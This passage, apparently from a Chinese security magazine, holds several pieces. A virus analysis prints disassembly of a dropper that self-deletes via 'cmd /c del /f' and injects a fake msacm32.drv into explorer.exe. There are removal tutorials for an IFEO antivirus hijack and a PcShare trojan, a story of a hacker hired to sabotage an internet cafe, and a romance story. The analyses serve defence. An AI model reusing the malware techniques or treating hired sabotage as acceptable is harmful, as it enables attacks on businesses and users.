首先是获得执行命令的参数“/c del /f”，并保存在寄存器eax中，如图5。其中GetEnvironmentVariableA获得了环境变量的值，并且把cmd的目录作为变量连接之前的命令行保存在了寄存器eax里，如图6。

```asm
21231221  push ebx   ; ShowState => SW_HIDE
21231222  push eax   ; CmdLine
21231223  call dword ptr [<&KERNEL32.WinExec>]
```

这时候病毒主体文件在完成自己的工作后就自尽身亡了，真正的罪魁祸首就是释放出来的msacm32.drv文件。接下来我们就该对这个文件进行分析了。可能又有小菜要提问了：这种格式的文件没有见过啊，是设备驱动程序吗？该怎么调试呢？其实这个文件是个DLL，反汇编就可以看到其真面目了。

这里我用了一个懒方法，首先将其后缀修改为exe，然后使用OD载入。如果是exe文件的话载入的时候是没有任何问题的，而如果是dll文件的话，由于dll是无法单独运行的，所以OD会提示启动LOADDLL.EXE进行dll的加载。成功加载后我们先单步一会儿，因为对dll的调试不同于exe文件，一开始就查找ASCII或者输入表的话是得不到任何信息的。单步的时候遇到回跳的地方一律按F4跳过去，不一会儿就来到了模块入口点，如图7。

现在就可以查看当前的模块信息了，结果看到了几个极为可疑的函数，如图8。这里我们把断点下得靠前一些，在free函数那儿下断，按F9运行后就来到了下面的位置：

```asm
72B8273D  push edi   ; BufSize => 104(260)
72B8273E  push eax   ; Buffer
72B8273F  call dword ptr [<&KERNEL32.GetSystemDirectoryA>]
```

```asm
; 堆栈地址=0069F694. (ASCII "\\msacm32.drv")
72B82748  |. 50               push eax
72B82749  |. 8D85 5CFEFFFF    lea eax, dword ptr [ebp-1A4]
72B8274F  |. 50               push eax
72B82750  |. E8 01010000      call <imp.&MSVCRT.strcat>
72B82755  |. 59               pop ecx
72B82756  |. 8D85 5CFEFFFF    lea eax, dword ptr [ebp-1A4]
72B8275C  |. 59               pop ecx
72B8275D  |. 50               push eax        ; /FileName
72B8275E  |. FF15 1C108872    call dword ptr [<&KERNEL32.LoadLibraryA>]
72B82764  |. 3BC3             cmp eax, ebx
72B82766  |. A3 B829B872      mov dword ptr [728B29B8], eax
72B8276B  |. 0F84 CB000000    je 72B82839
72B82777  |. 56               push esi
72B82778  |. 8B35 1810B872    mov esi, dword ptr [<&KERNEL32.GetProcAddress>]
72B8277E  |. 51               push ecx        ; /ProcNameOrOrdinal
72B8277F  |. 50               push eax        ; |hModule
72B82780  |. FFD6             call esi        ; \GetProcAddress
```

到了这里就一切都明白了，病毒释放出来的msacm32.drv是伪装成对应原系统的正常文件，然后对之前创建的虚拟桌面里运行的explorer.exe进行注入，并且在注入的代码中使用LoadLibrary和GetProcAddress进行强制加载。

到此病毒就分析完毕了，接下来就是杀毒的工作。这个病毒很好杀：打开冰刃，查看explorer进程的模块信息，找到C:\WINDOWS\msacm32.drv将其卸载掉，然后直接删除C:\WINDOWS\目录下的msacm32.drv文件即可，如图9。

其实病毒分析的技术博大精深，因本人水平有限，所介绍的也只是冰山一角，不过在此就权当是抛砖引玉了，希望能对大家有所启发。（本文所涉及到的PEiD、OD和冰刃，已经收录到光盘中）

### 杀软小红伞之再现威金

追晓

小红伞是德国一款著名的杀毒软件，英文名为AntiVir，其以较少的资源占用率、较快的扫描速度、对病毒查杀较强等特点，在国内也有相当一部分使用者。我电脑里安装的杀毒软件中，其中就有小红伞（我电脑里可是安装了好几款杀毒软件哟），如图1。

可是前几天，我的小红伞却出现了问题，先是任务栏小红伞的图标显示监控禁用，再就是小红伞的主程序也启动不了了，当时也没太在意，就没有去解决这个问题。不过后来问题就变得更严重了，不仅小红伞启动不了，连AVAST、AVG、超级巡警等杀毒软件也都无法启动了。再后来我去网上寻找KEY的时候，才想起来，我使用的小红伞是免费版，不会存在KEY到期这个问题的，那么到底是什么问题呢？会不会是程序损坏了呢？我从网上把小红伞的安装程序重新下载并安装了一遍，但问题依然存在。

就在我冥思苦想原因的时候，却发现我的AVAST似乎也存在和小红伞同样的问题。我又尝试着启动超级巡警，发现主程序也打不开，连三个杀毒软件都启动不了，难不成是被病毒、木马给映像劫持了？

我把这些杀毒软件的主程序全部改名，发现可以正常运行，看来果然是映像劫持了。我在“开始”→“运行”栏输入regedit打开注册表编辑器，然后定位到了映像劫持这一项：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
```

可以清楚地看到，360安全卫士、瑞星、卡巴、NOD32、小红伞、AVG、大蜘蛛、江民、金山等杀毒软件以及其它一些常用的安全监控程序等均在里面，如图2。

找到了问题，那么解决起来就简单得多了。把那些杀毒软件的项全部删除就可以了。删除之后，小红伞就可以运行了，AVAST和超级巡警也恢复了正常。

既然有对杀毒软件的映像劫持，那么肯定就和病毒木马有关。在杀毒软件恢复正常后，我就对电脑进行了有选择的杀毒（存放常用工具的盘没有杀毒，不然很多工具就会没有了）。在杀毒的同时，我也把冰刃打开了，查看有没有可疑的进程，里面的进程并没有什么可疑的，都是我正在使用的安全工具的进程。

再使用360安全卫士清查开机启动项，里面的程序也都是安全的，如图4。正在这时，小红伞却报警了，并查杀了一大堆病毒，如图5。原来是“威金”这个老病毒，可怜了我的那些程序，都要重新安装了。后来我想了想，才想起最近自己在使用程序时已经不先用沙盘测试了，大部分都是直接使用的，怪不得会中病毒。

不过在我的中毒症状中，并没有威金的特性，比如生成desktop.ini文件（文件属性为系统和隐藏）、rundll32.exe文件等，在开机启动项里也没有查到威金的相关信息，可能是威金的一个变种，就暂且叫它新威金吧。好在我工具盘里的常用工具没有被它感染，不然那可就惨了。

这么老的病毒，没想到我居然还能再碰上，这就提醒了大家在使用一些程序的时候，还是小心为好，不然中了招可就不太妙了。

等杀毒软件扫描完一遍后，一部分病毒就被杀光了，余下的工作就是清理了，在此不再多述。最后还是要提醒一下大家，程序可以使用，但最好是先用沙盘测试后再使用，或者是在虚拟机里直接使用。作为一个使用者，只有在保护好自己的前提下，才能更好地去使用、去发掘。

> （文章中所用到的 Icesword 已收录到光盘中）

### AVZ脚本

辅助我们手工杀毒


卡巴斯基2009虽然是一款非常不错的杀毒软件，但是仍然不能百分之百地保护系统不受病毒的入侵和破坏。不过最新的卡巴斯基2009提供了一个不错的功能，就是可以创建一个类似于 SRENG 日志的系统报告，我们通过安全报告中的信息内容，就可以判断出列表中的病毒文件、注册表等信息，然后编写出对应的 AVZ 脚本就可以快速地清除病毒了。

系统报告中会列出进程、内核模块、服务、驱动、自动运行，还有信息的名称、软件版权、软件厂商等信息，同时还会通过不同颜色的信息来告诉用户，比如系统信息会用绿色进行显示，第三方信息会用黄色进行显示，而危险的信息则使用刺眼的红色进行显示，如图2。当发现标注为红色的信息后，我们就需要特别注意了，尤其是那些没有软件信息的内容。在每一个信息的下方，都有一个脚本操作区，里面包括了隔离、删除、Bc_删除和终止等操作。

#### 一、分析系统信息

为了更好地介绍 AVZ 脚本的操作，本文我们就使用 PcShare 木马来配合演示。首先打开卡巴斯基2009的主窗口，点击窗口左下角的“支持链接”，然后在弹出的窗口中点击“支持工具”，再在“技术支持服务信息”窗口中点击“创建系统状态报告”按钮，这时卡巴斯基2009就会收集系统信息并生成报告了，如图1。


图1


图2

报告生成后，点击窗口中的“查看”按钮，卡巴斯基就会打开存放报告的文件夹。可以看到安全报告是以 sysinfo.zip 压缩包的形式存在的。由于该目录下的文件受到了卡巴斯基的保护，因此我们需要先将压缩包复制到其它目录下，然后就可以将里面的报告解压出来进行查看了。

解压后可以看到两个文件，即 avz_sysinfo.htm 和 avz_sysinfo.xml，使用浏览器打开 avz_sysinfo.htm 文件就可以查看了。由于卡巴斯基是一款俄罗斯的软件，因此我们看到的报告里的文字有可能是乱码，可以点击 IE 浏览器的“查看”菜单，选择“编码”中的“简体中文（GB2312）”，这样就可以比较好地查看报告中的信息内容了，虽然报告中的描述仍然是英文，但是基本的信息还是可以看明白的。

在“内核模块”里发现了一个可疑的 vojspr.dll 模块，事实上 PcShare 木马服务端的一个特征就是可以随机生成。点击“删除”来尝试删除这个文件，如果删除不掉的话我们还可以点击“Bc_删除”，“BC”就是“BootCleaner”的意思，就是在重新启动进入系统前将病毒删除掉。对于那些已经加载到内存又赖着不出来、删除不掉的病毒就可以使用“Bc_删除”了。另外，我们在报告中还发现了一个可疑的 vojspr.sys 驱动，这也是木马用于隐藏服务端程序所使用的，同样点击脚本区中的“Bc_删除”即可。

操作完成后，我们先转到报告文件的底部，在这里有一个“脚本命令”编辑框，里面就是我们刚才操作的脚本代码，如图3。

```text
begin

BC_DeleteFile('G:\windows\system32\vojspr.dll');

BC_DeleteFile('G:\Windows\system32\drivers\vojspr.sys');

end.
```

#### 二、查看安全报告

报告里列出来了系统中正在运行的进程、内核模块、服务……

### 黑色梦想

独孤小梦

伊峰：如果你能帮我攻击旁边这家网吧，直到倒闭为止，那么价钱好说。

小梦：倒闭为止？你能出多少钱？

伊峰：对，8万！如果你同意的话……

小梦：成交。一个月以后见……

伊峰：好的，我知道你的习惯，一个月以后见……

“H I……我说……你还想上网不？把你的卡给我……”

“嗯，上上上……”小梦想也不想就一边回答，一边往大衣口袋里掏钱包。

“呵呵，你等会儿，我和他说呢……”

关闭了QQ的聊天窗口，静静地靠在背椅上……在思维中整理一切可用的资料。小梦是一个22岁的年轻人，毕业于南方的一所普通大学，正如现实中一些刚从大学毕业的学生一样，没有房，没有车，没有钱，甚至连恋爱都没有谈过，也许他所拥有的东西就只有他引以为傲的计算机安全技术和高超的程序编写知识。

大学整整4年，放弃了网络游戏，放弃了和朋友去玩乐，放弃了别人拥有的一些睡眠时间，放弃了一个大学生必须在大学里所经历的一场轰轰烈烈的爱情……也许唯一没有放弃的就是那台陪他度过了4年时光的神州承运L205T笔记本电脑。在它上面他拥有更多的回忆，曾经几时，因为安装Linux而没有弄好驱动，为了一个病毒格式过十次以上的盘，为了一个免杀而努力学习汇编语言，这些经历都是别人从来没有的，也许这就是他的大学4年……

毕业，对于一个年轻人，也许曾经有梦，但未曾去追逐过，小梦毅然决定离开他从小到大一直生活的南方，离开亲人，离开朋友，去追逐曾经儿时的梦。对于一个没有高学历的非计算机专业的人来说，想要寻找一份关于计算机技术的工作是很难的，小梦在和一个网城老板的聊天中，第一次被雇佣成为一个网城之间利益竞争的有力武器，也许这个工作对于一些人来说是令人憎恨的，也是道德的，但对于小梦来说，一份工作能使他吃上一顿饭，那就足已。

从那以后，在H市的网吧经营者中都知道了一个名叫小梦的黑客，对他又爱又恨，但他们从来不知道他的真实姓名、性别、年龄等，甚至几乎没人真正地见过他，只知道他唯一一个不常上线的QQ号和他拥有的高超技术。只要雇佣了他，那么他攻击的那家网吧一个月后肯定会倒闭，从来没有失手过……

小梦伸手把挂在靠背上的那件他喜欢的黑色披风大衣拉了下来，抱在怀里，拿上钥匙，顺手带上了那扇厚厚的防盗门，向楼下走去。这是他最后一次“业务”了，因为他已经找到了一份能够维持他生活的工作，他不需要再干这种不道德的事情了。

“秋季H市的傍晚已经比南方的冬天冷了”，这是小梦第三次感叹H市的气候，不自觉地对着双手哈了口气，然后害怕被冷到似的深深地缩进了黑色大衣口袋里，再也不伸出来。路旁枯黄的梧桐树叶落得满地都是，踩在上面软软的，发出了“咯咯”的声音……

这次小梦的雇主叫林伊峰，是梦幻世纪网城的老板，要攻击的对象是时代在线网城，两家网城同处在一个繁华的广场上，相距不过几十米。这些都是小梦在决定接受这个“活”之前就调查好的了，两家网城小梦都没有去过，现在他所要做的就是去时代在线网城上网。当小梦到达时代广场的时候，天已经全暗下来了，挂得高高的“时代在线网城”霓虹灯在超负荷地工作，不停地闪呀闪的……

小梦望了望那几个字，轻声地说道：“不好意思，这是最后一次了，过几天你大概就不会闪得这么漂亮了吧。”时代在线网城的大厅布局完全是仿韩式的，整个大厅装修得非常豪华，而吧台更是完美，所有的东西应有尽有，旁边放着3台计算机，小梦估计这些全是服务器：电影服务器、游戏服务器、收银服务器。

“那么这样就比较简单了……”小梦小声地嘀咕着。

小梦抬起头看到旁边不知什么时候站着的一个大叔，而对自己说话的是一直没有关注的收银员，收银员是个非常漂亮的女孩子，大概也就20岁左右，瓜子脸，大大的眼睛搭配上没有画过妆的面容，显得单纯又美丽。

“哦……”小梦在1-2秒的时间内回过神，把已经掏出的钱包又放回深深的口袋里。

“呵呵……好了，把你的卡给我吧。”那女孩对着小梦伸出了白皙的手。

“哦，好的。”小梦连忙把放回去的钱包再次拿了出来，一边从里面拿出10元钱和一张卡递过去，一边把眼睛看向其他的地方，不知道为什么小梦从高中开始就害怕和一些漂亮的女孩子说话，甚至对视。“也许这就是一个未接触爱情的男生应该有的心理吧！”小梦这样给自己找了一个冠冕堂皇的理由。

“我说帅哥，我就这么丑吗？都不敢看我。”那女孩一边熟练地操作，一边对小梦说道。

“我哪里帅了？郁闷。”小梦轻声地嘀咕道。

“呵呵，给，好了，还有你的眼睛很漂亮，搭配上你黑黑的长发，挺帅的。”那女孩儿一边把卡递过来，一边调侃道。

小梦听到这话后，去接卡的手在空气中停顿了2/3秒。“谢谢！”刚说完，小梦拿着卡，眼睛在2/3秒的时间内迅速看了那女孩一眼。女孩还在看着他笑，这是小梦离开吧台前最后的一个念头。

正事归正事，虽然他见到那样的女孩，但不代表见到了就要放弃自己的“业务”。小梦随便找了一个摄像头看不到的死角，迅速插上U盘，运行自己最近写好的“智能”后门程序，这个后门可是小梦在2年前下了N多工夫后才写出来的专用“智能程序”。现在这个程序已经能够自主穿透很多还原精灵，在计算机中实现自我隐藏，发现危险时立刻撤退、感染、攻击，嗅探同一个网段下的计算机等等N多功能。

这个网吧的IP都是外网IP地址，电信那边直接给出了几个IP段，要找到服务器对于小梦来说是轻而易举的，使用自己的程序监视收银系统进程，就能找到收银服务器的IP地址了。可是程序返回的结果却有6台服务器，那么吧台那里的3台，有一台是收银用的，另外5台……小梦暂时停止了思考，他现在也收集到了自己想要的信息，决定回家后再开始工作。

“咦，怎么才来不到半个小时就要走了呢？是不是我们有什么做得不好的地方？”

“没有没有，我刚上线，我朋友就叫我过去他那里，今天他生日，我把这事给忘了。”同样的声音中还是充满着羞涩的音调，同样的还是不敢和那女孩对视。

“呵呵，那好，欢迎下次再来。”女孩把卡递还给了小梦，小梦还是以2/3秒的瞬间看了那女孩一眼，接着头也不回地走出了网城。“时代在线”那几个字还在不停地闪，小梦似乎又见到了那女孩脸上不曾有过的红晕，正笑眯眯地对着他……

当小梦回到家打开那厚厚的防盗门时，已经快接近十点了，打开自己的那台计算机，发现自己在时代在线离开几小时前运行程序的那台计算机正处于在线状态。小梦现在还不想发送引爆程序的命令，和平时一样，在没有拿到所有计算机权限的时候，他是不会轻举妄动的，他知道一点差错也许就会影响到大局。

从后门进入那台计算机后，小梦要做的就是把服务器全搞定，输入一串串指令后，自己的程序开始自动扫描起来，这次扫描的对象并不是所有计算机，而是刚才扫描到的那6台服务器。10分钟后扫描结果出来了，令小梦惊讶的是有5台使用的是Windows 2003系统，其中有1台还存在telnet弱口令，1台的3389端口开着，并且密码也为空。另外3台是没有任何漏洞的，其中有1台什么都没有扫描到，只显示系统在线。

这是以前从没有过的事情，小梦再次陷入沉思。收银服务器的IP地址他已经得到了，游戏服务器在从网上下载游戏时，IP地址同样也被自己的程序检测到了，电影服务器在网吧影院的快捷方式里直接指向了服务器IP，而这3个服务器的IP同时没有任何漏洞，只知道是2003系统。在这以前，网吧的这三个服务器或多或少都会有漏洞的，怎么这次……小梦再次注意到了监测程序里的数据，收银服务器里又关联到了另一个IP：222.200.119.100，那个IP正是他自己的后门显示在线却什么都没有查出来的计算机。小梦现在肯定收银数据库绝对是在这台计算机上。那么另外两台存在漏洞的计算机呢？小梦决定先进去看看，随手打入命令“TELNET 222.220.199.98 23”，刚要按下回车，小梦的心里突然像被刺了一下，这种情况在经历的一次渗透过程中曾经出现过，那是在入侵俄罗斯一个网站服务器的时候有过，当时他差点被“蜜罐”给骗了。现在同样的情况，这是他在做业务的时候绝对没有出现过的，他以前入侵过的网吧，都没有架设过任何“蜜罐”，更不用说还是两台了。

现在不管到底是不是“蜜罐”，只要没有肯定的答案，他是不会去动它们的。他只有先从另3台服务器上入手了，没有漏洞就不能入侵成功，这对于小梦来说是不现实的。花了两个小时，依次拿下了游戏服务器和电影服务器（比做其他业务时入侵三台服务器多花了1个多小时），收银服务器小梦没有动，而是直接开始尝试渗透222.220.199.100这台古怪的计算机，小梦肯定这个网城的网管绝对不简单。

第三天晚上，小梦在计算机前露出了笑脸，这次渗透和那次渗透俄罗斯网站主机的技术含量差不多，在第四天的凌晨2点，小梦才发现222.220.199.100这台计算机上的操作系统不是Windows，也不是Linux、UNIX等操作系统，虽然和Linux很相像，但并不是。小梦整整花了两天的时间，才找出了一个漏洞，但他并没有去入侵，因为现在他需要休息。

当小梦精神十足地拿到了最高权限，并顺手打开了视频，他想看看操作这台计算机的是谁，可是当画面显示出来时，小梦的脸上竟然泛起了红晕，因为在对面计算机前的正是那个曾经替他刷卡的漂亮的收银员，这令小梦感到无比惊奇。现在她正在紧张地盯着摄像头看，她眼睛里布满了血丝，但她依然是那么漂亮，就像刚从战火中走出来一样。

“不知道她干什么了……”小梦脸上泛起了无奈的笑容。

这时那女孩突然低下头，在桌面上打开了一个文件，输入：“我知道你是小梦，并且现在你正在看着我。”

“何以见得我是小梦？”对于能让小梦在计算机前工作三天的人，小梦也不觉得那么惊讶了，立刻在对方的文件里输入文字。

“你就是四天前的傍晚，到过这个网城，穿着黑色披风的那人就是你。”

小梦差点从椅子上跳了起来，但是他立刻平静了，这次他遇到的是绝对不比自己弱的高手，他需要安静。

“我哪里出错了吗？”既然已经知道了，那么小梦也就不需要掩盖什么了，而是直接问出了自己的问题。

“你那天识破了我设下的‘蜜罐’，但是你的数据还是被我的程序给嗅探到了，后来我分析了下，你是那个时常进入网吧的。”

“呵呵，原来是真人不露相，你熬夜了？”小梦不知不觉地在后面又多加了一句。

“嗯，你安全做得太厉害了，跳板太多，竟然还有俄罗斯一个服务器的主机，我一时没能找出入侵的方法，不然的话，现在就是我在你计算机里说话了，哼！”一股小女孩子霸道气息立刻显露出来，屏幕上女孩的嘴撅得老高……

“那么，我的工作是不会停止的，不管你有多厉害，先去休息吧，再见！”小梦说完就停止了监视那台计算机的程序，同时在自己计算机里输入了程序的引爆命令。“时代在线”开始了IP冲突、间接断网、病毒不断删掉某一些文件的情况，里面的三个网管忙得团团转，才把机器还原，但三分钟后又再次被感染……客户不断在叫着“网管，游戏进不去了”“怎么网络又断了？”“我的号被盗了，网管过来看下……”而在另一个房间中的漂亮女孩对着房间外叫道“爸爸，我也没办法，他比我厉害，等我休息一会再继续工作……”然后也不等回话，拉开旁边床上的被子就睡死过去。

26天后……

“呵呵，好吧，我停止，我放弃了……”小梦在自己计算机前苦笑着输入了一句话。

“呃呃，怕了吧，厉害吧？”立刻在下一行上出现了一排字。

小梦开始输入终止自己程序运行的命令，并从计算机上卸载了后门。

这26天，小梦不断加强攻击强度，不断防御来自另一边的攻击，他知道了那女孩名叫萧雪，是“时代在线网城”老板萧强的宝贝女儿，萧强在H市及附近的城市，一共经营着10多个网城，他的宝贝女儿也是一个技术不弱于自己的网络高手……

“时代在线”那里的问题，26天以后的傍晚，“时代在线”以前的大量客户又再次涌入了“时代在线”，一场战争终于结束了。

两年以后，H市梦幻世纪网城由于管理不善而倒闭，这在萧雪她爸爸的眼里被认为是“恶人有恶报，想不正当竞争，永远不可能赢过对手的。”同时H市网络中的那名高级黑客也突然消失在了网络中，而在“时代在线网城”中又多出了一个高级网管。

在几年后的一次中日黑客大战中，中国这边突然多出了一对情侣黑客，男的叫小梦；女的叫小雪……

也许这就是小梦的黑色梦想，一个只属于他和小雪的黑客之梦……

## 遗珠记……

#### 妖暖

我越来越像贝壳，怕心被人触碰。

有些事情听起来就像是故事，可是故事哪有如这般真实呢？

洛衡在写“情书”的剧本，后天就要开拍的校园DV剧，而霰阳正是剧中的男主角。系里举办的DV大赛，宿舍的几个女生商量着要拍个片子出来，纪念一下自己的大学时光，剧本的重任自然就交给了素有才女之称的洛衡。接下这个艰巨的任务，洛衡脑海里自然而然地就浮现出了岩井俊二的小说“情书”，那般单纯而美好的少年时光，自当是青春最好的纪念。

于是洛衡连夜看完了“情书”的电影，少年藤井树与少女藤井树之间朦胧的感情，掩在青涩的年华里，看不出端倪，然而当这一切开始浮出水面之时，故事却已是唱到尾声。

剧本写得很顺畅，在那样平淡却激烈的感情的牵引下，所有的文字如同期待了很久，争先恐后地从笔端冒了出来。整个故事看起来是如此的澄澈，像清水一般干净纯粹，没有一丝杂质。写完之后，洛衡却有些茫然了，是的，她只是这部剧的编剧，只是编剧，意味着她要看霰阳和另一个女孩子上演的这部爱情故事。

霰阳的藤井树，冷冷的藤井树。可是为什么是冷冷，这个被向来无视女生的霰阳唯一赞美过漂亮的女生。而向来强调自己是低调黑客的霰阳，也破天荒地答应出演男主角。当时这样定男女演员的时候，自己不是没异议吗？那么，就看故事上演吧。

DV剧的第一幕戏是在教室。

开学初老师点名，藤井树，少年藤井树和少女藤井树同时站起来回答。放学后就有同学恶作剧地在黑板的值日表上写上了两个人的名字，中间是一颗爱心，然后羞红了脸的少女藤井树在少年藤井树的注视下，生气地把名字擦掉。

很简单的剧情，所以拍得也很顺利，霰阳和冷冷的表现都很不错，特别是霰阳，他将少年藤井树默默的爱恋不动声色地表现了出来，在他注视着少女藤井树冷冷的眼神里。

洛衡在戏后擦掉黑板上的两个名字，藤井树和藤井树，两个笔画一样，发音一样的名字，藤井树，藤井君，藤井同学，藤井树爱藤井树。黑板上的名字可以用抹布擦掉，可是洛衡心里的那股茫然却怎么也擦不掉。霰阳拍戏的样子很认真，他认真的样子总是格外迷人，冷冷和他的眼神里有种让洛衡害怕的情愫在流动。冷冷是那样骄傲美丽的女子，而自己呢？洛衡看着镜子里自己苍白的脸，无奈地苦笑。

> “少年藤井默默地爱着少女藤井，她是他心灵深处的秘密花园，盛开着馥郁绚烂的鲜花，她的芬芳蔓延他身体的每一寸，她的一切都是他小小的甜蜜心事，他总是对她漫不经心，他总会在她面前做些奇怪的事情，他总是找机会欺负她。羞涩腼腆的少年用这样的方式表达着爱意，那个脑海里日夜思念的身影。然而，当他面对她，奔腾的千言万语都融化为羞涩的笑容与闪烁的眼神。于是，这份暗恋，最终也没有解开。而我爱你，宛若暗恋，怎样的百折千回都不曾让你看见。”

洛衡在自己的博客“消失的光年”里写上了这段话。

下午的时候突然下起了暴雨，原先预订的戏没办法拍，临时改成了少年藤井树把自己的伞让给了少女藤井树。少女藤井树从教室出来，外面却下着瓢泼大雨，她怯怯地站在门口，少年藤井树从身后塞了一把雨伞到她手里。雨伞是青色的，上面有着白云朵的模样。少女藤井树却拒绝了他的伞，冲进了雨中，然后少年藤井树追了上来将撑开的伞硬塞给她，一言不发地消失在了滂沱的雨中。

因为下雨的关系，镜头沾上了雨滴，拍出来的效果不是很好，在导演邬子钧的要求下，编剧兼摄影师的洛衡不断地转换着角度，用伞保护着摄像机，自己却淋了一身的雨。

冷冷的肩膀微微沾湿了些，低声向毅阳抱怨着，而被大雨淋过很多次的毅阳却是一直微笑，模样没有丝毫的不耐烦。

湿答答的衣服紧贴在身上，洛衡却微微笑起来了，她和毅阳这样可算是同甘共苦？他们的处境如此相似，是比相同的名字更近的距离。

“洛衡，其实啊，我觉得你们家毅阳还蛮有意思的。”冷冷洗完澡，躺在床上，忽然探过头来对洛衡喊道。

洛衡一怔，低声说道：“你不是一直觉得他是个懒散无聊的家伙吗，怎么悄悄说起何伟温柔体贴。”

冷冷撇撇嘴：“何伟？我早跟他分手了，受不了那样婆婆妈妈的男人，还是你们家毅阳好，比较有男子气概。听说他还是个黑客，电脑技术很厉害是不是？”

冷冷说的时候，眼睛闪闪发亮。

“怎么会，他只是会修点电脑而已，谈不上什么厉害的。”洛衡知道毅阳不喜欢太多人知道他研究黑客技术的事，于是赶紧转移话题，“你们家何伟对你可是死心塌地，我们宿舍都以为他是二十四孝男人了，你就这么舍得跟他分手？”洛衡惊讶道。

“温柔体贴是好，可是他除了温柔体贴外还能给我什么，我想要的锦衣玉食的生活他能给我吗？整天一副小男人的样子，自己都照顾不了，怎么照顾我呢？”

冷冷总是这般的清醒，似乎永远也不会迷惘，即使是在最缠绵的时候，也知道什么时候该起身离去。

洛衡愣了下，原来爱情是要这般去计较的，那么她呢，她能给毅阳什么？自己又曾期待过从毅阳那儿得到些什么呢？陡然发现，这问题她竟是从来也不曾想过。

“我要睡觉了。真有点儿期待明天的戏份呢，毅阳的演技还挺不错的。”冷冷笑着拉上了窗帘，然后宿舍一片沉寂。

今天的戏份是洛衡最爱的片段，写剧本的时候也是格外用心。少女藤井树放学后骑车回家，一直默默爱恋着她的少年藤井树，千方百计想引起她的注意，于是从后面骑车追了上来，恶作剧一般地将一个牛皮纸袋套到女孩的头上，然后大笑着离开，留下生气而无奈的少女。

记得有人说过，少年时代的感情羞涩而朦胧，男孩子表达对女生的喜欢总是别扭而笨拙，而最经常用的小手段，就是欺负她，吸引她的注意。洛衡在写这段情节的时候，仔细认真地想象过该用怎样的场景来搭配这动人的剧情，思前想后，最适合的莫过于绿柳道。那是学校很出名的一条林荫道，两边栽满了柳树，风吹过的时候，女生飘起的长发和漫天飞舞的柳条相映成趣，自是一道迷人的风景。那么，少年藤井树和少女藤井树的爱情必定是要发生在这里，才是美得动人心魄。

阳光绿荫里的毅阳和冷冷在光影交错间骑着单车，脸上的神情在那一刻看起来是那么相似而般配。其实毅阳也说过的吧，他是喜欢漂亮女孩子的吧，而冷冷正是毅阳喜欢的类型。洛衡不知道为什么，其实自己也不是那么差劲，却总在牵扯到毅阳的时候，会发来由的自卑，然后越发胡思乱想。

张爱玲说过，喜欢一个人，会变得很低很低，低到尘埃里，但内心是欢喜的，尘埃里开出一朵花来。其实也不是没想过，如果自己能不那么自私的话，应该放手让毅阳去找更好的女孩子的。以毅阳的资本，想要更好的女孩子完全是可以的，比如说冷冷。

冷冷是骄傲美丽的女孩子，自开学起，追她的男生就是一大把。她是那种让人一眼看过去就觉得闪亮漂亮的女孩子，并且聪慧大方，在学校算是颇有名气的美女了。在毅阳夸冷冷漂亮的时候，洛衡的心是酸涩的，像是有长长的、长满细细的刺的藤紧紧缠绕在心上，连呼吸都是疼的。

人生如戏，戏如人生。这部DV拍摄过程漫长得像永生，可这是自己决定的剧本，即使主角不是自己，也仍要坚持拍下去。

最后一幕戏洛衡将地点定在了图书馆。剧情是很简单的，多年以后，母校的学妹们送来一本旧藏书，那本少年藤井树转学前托少女藤井树代还的书，她打开书的最终页，看着写有“藤井树”的借书卡片，却赫然发现卡片背面用铅笔勾勒的素描是一张与自己依稀相似的容颜。在共同当选为图书管理员的日子里，少年在春日飘荡的长白窗帘后依窗翻着书，女孩总是埋头工作。那些没人看的书的卡片上的名字，每一个都是爱的表达。

这个结局弥漫着温柔与悲伤，在洛衡的解说下，毅阳和冷冷很快就进入状态，居然一次都没有NG，顺利杀青。拍摄完毕，大家都很高兴，商量着要一起去吃饭庆祝。洛衡也轻轻舒了一口气，心里顿时放松下来，却无意间瞥见毅阳和冷冷独自离开，走向图书馆外的小走廊。

洛衡悄悄地跟了去，却不敢跟得太近，隔远了只看见两个人在低声说着话，声音从远远的走廊传来，模糊而破碎，却是能隐约听到“喜欢”这样的字眼。然后更刺眼的是冷冷搭上了毅阳的手，她握住了洛衡最喜欢的纤长的手指。这已不是演戏时的暧昧，洛衡分明看到了冷冷骄傲而期待的眼睛，而毅阳的表情看不分明，却只看到他没有拒绝的沉默不语的背影。洛衡忘记了自己是怎样狼狈地逃离图书馆，她的脑子里只有一片空白。

“南方小城，曾经我最迷恋的是这里的海。如今，最迷恋的是猪头三同学。当猪头三同学可以有更幸福的选择时，我就不能让自己再那么自私地迷恋他了。失去了自己现在最重要的东西，那么至少可以让我再去看看曾经最想要的东西吧。我会消失一段时间，去休养生息吧。”洛衡在博客上写下了这段话，然后悄无声息地请假去了海边。

终于看到海了，洛衡轻舒一口气，这个就是当初让自己义无反顾来这南方小城的……

## 侠隐仙踪

大海，这个就是自己一直魂牵梦萦的大海。层层苍翠的重山掩映下，一片灰蓝色的海水映入眼帘，天色有些阴沉，海水的颜色不是纯净的蓝，微微有些泛灰，却是很舒服，像是三十岁的成熟女子，安静而优雅。

从岸上赤足走到沙滩，沙子渐渐从粗砺到细腻。站在海浪拍拂的沙滩上时，脚下的沙子细腻润滑，被海浪冲刷出美丽的花纹。赤足立于海水之中，感觉着潮水的汹涌，甚至一个大浪拍过来，全身浸湿。

你的名字我写了那么多，却都被大海卷走了，留不下任何痕迹，可是为什么大海却不能卷走我心里的痕迹呢？站在海边，洛衡想打电话给筱阳，让他听听海浪的声音，让自己听听他的声音，这样看起来就如同是两个人在一起看海一般。

洛衡总是会这样，听到一些事，看到一些东西，明明跟他不相干的，她也会拐了好几个弯而想到筱阳身上去。按下再熟悉不过的号码，却迟迟没有拨过去。已经决定了要不再自私，给筱阳自己选择的自由，自己却又为何要这般任性地去打扰他呢？于是这点心思终是淹没在了潮声汹涌里。

洛衡在沙滩上捡到一个小小的贝壳，手掌大小，细腻的白色外壳，却是脆弱得轻轻一捏就要碎掉。捧在手心，洛衡想这贝壳是怎样从深海里被冲刷到这沙滩，然后遗失自己最重要的珍珠，只剩一具空壳留在这荒凉的沙滩上。

“春光乍泄”的结局里黎耀辉来到了世界尽头的灯塔，那是南美洲南面最后一个灯塔，再过去就是南极，失恋的人们都喜欢去那儿，把自己的不开心留在那里。

而“情书”里，“我的爱随风而逝……”这是男孩藤井树登山遇难时，在弥留之际哼唱的歌。他落入深深的谷底，没有人能够找到他，寒冷的白雪渐渐将他吞噬，在生命的边缘，他反复吟唱“我的爱随风而逝……”。

